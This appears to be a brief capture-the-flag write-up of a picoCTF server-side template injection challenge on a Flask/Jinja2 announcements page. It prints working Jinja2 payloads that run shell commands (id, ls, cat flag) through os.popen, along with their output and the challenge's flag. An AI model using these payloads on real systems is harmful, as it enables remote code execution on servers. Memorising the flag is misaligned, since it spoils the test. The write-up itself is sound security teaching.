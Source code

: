 Simple page that allows 'announcements'. These announcements are then repeated back.  

Title kind of hints to server side tremplate injection.  

Use of {7 * 7} returns '{7 * 7}' but '{{7 * 7}}' returns '49'. Find this blog by onsecurity.  

https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/  

{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}} returns 'uid=0(root) gid=0(root) groups=0(root)'  

Looks like I can pas sinformation in through using Python. I'm assumign this is a Flask app.

Running "{{request.application.__globals__.__builtins__.__import__('os').popen('ls -la').read()}}" returns requirements.txt and flag

Sending "{{request.application.__globals__.__builtins__.__import__('os').popen('cat flag').read()}}" returns  

#### picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_5c985a9a}  
